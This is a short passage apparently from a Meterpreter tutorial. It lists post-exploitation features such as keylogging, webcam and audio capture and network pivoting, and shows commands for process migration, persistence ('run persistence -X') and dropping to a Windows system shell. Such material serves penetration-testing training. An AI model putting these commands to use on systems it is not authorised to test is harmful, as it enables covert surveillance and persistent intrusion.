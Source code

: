 **System Operations:**
- Execute system commands
- Run keylogger
- Create/start/stop services
- Manage processes

**Network Operations:**
- Port forwarding
- Network pivoting
- Route manipulation

**Advanced Features:**
- Screenshot capture
- Webcam access
- Audio recording
- Registry manipulation

### Meterpreter Commands

**Get Help:**
```bash
meterpreter > ?
```

**Common Commands:**
```bash
# System Information
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getpid

# File System
meterpreter > pwd
meterpreter > ls
meterpreter > cd <directory>

# Process Management
meterpreter > ps
meterpreter > migrate <pid>

# Network
meterpreter > ipconfig
meterpreter > route

# Persistence
meterpreter > run persistence -X
```

### Dropping to System Shell

**Access Full System Commands:**
```bash
meterpreter > shell
Process 604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```
